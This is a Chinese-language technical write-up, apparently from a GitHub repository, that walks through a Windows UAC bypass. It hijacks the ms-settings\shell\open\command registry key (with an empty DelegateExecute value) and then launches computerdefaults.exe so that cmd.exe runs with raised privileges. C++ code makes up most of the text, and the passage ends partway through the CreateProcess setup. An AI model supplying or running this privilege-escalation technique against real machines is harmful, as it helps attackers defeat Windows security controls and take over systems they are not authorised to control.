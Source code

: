 ## bypass的实现

### 实现思路

#### 1.创建新键

在 `HKEY_CURRENT_USER\Software\Classes` 注册表路径下创建一个名为 `ms-
settings\shell\open\command` 的新键（如果该键已存在则打开它）

    
    
    // 创建或打开注册表键  
        if (RegCreateKeyEx(HKEY_CURRENT_USER, subKey, 0, NULL, 0, KEY_WRITE, NULL, &hKey, NULL) != ERROR_SUCCESS) {  
            std::cerr << "Unable to create or open registry key\n";  
            return false;  
        }

#### 2.创建键值

在刚刚创建的键下，创建一个名为 `DelegateExecute` 的键值，并将其设置为空字符串

    
    
    // 添加 "DelegateExecute" 键值  
        if (RegSetValueEx(hKey, valueName, 0, REG_SZ, (const BYTE*)"", sizeof("")) != ERROR_SUCCESS) {  
            std::cerr << "Unable to set registry value\n";  
            RegCloseKey(hKey);  
            return false;  
        }

#### 3.设置键的默认键值

设置 `ms-settings\shell\open\command` 键的默认键值为 `filename` 变量，这里是 `"cmd.exe"`

    
    
    // 设置默认键值为 "calc.exe"  
        if (RegSetValueEx(hKey, NULL, 0, REG_SZ, (const BYTE*)filename, strlen(filename) + 1) != ERROR_SUCCESS) {  
            std::cerr << "Unable to set default registry value\n";  
            RegCloseKey(hKey);  
            return false;  
        }

#### 4.启动进程

使用 `CreateProcess` 函数启动新的进程来执行 `"C://windows//system32//cmd.exe"` 这个命令，命令参数是
`/c C://windows//system32//computerdefaults.exe`。当这个命令执行时，它实际上会通过 `ms-
settings\shell\open\command` 注册表键执行 `cmd.exe`，因为此键的默认键值被设置为
`cmd.exe`。这个过程就是用户账户控制（UAC）的绕过

    
    
    STARTUPINFO si;  //进程启动信息  
    	PROCESS_INFORMATION pi;  //进程信息  
    	ZeroMemory(&si, sizeof(si));  //将结构体si的所有成员都初始化为0  
    	ZeroMemory(&pi, sizeof(pi));  //将结构体pi的所有成员都初始化为0  
    	si.cb = sizeof(si);  //结构体大小  
      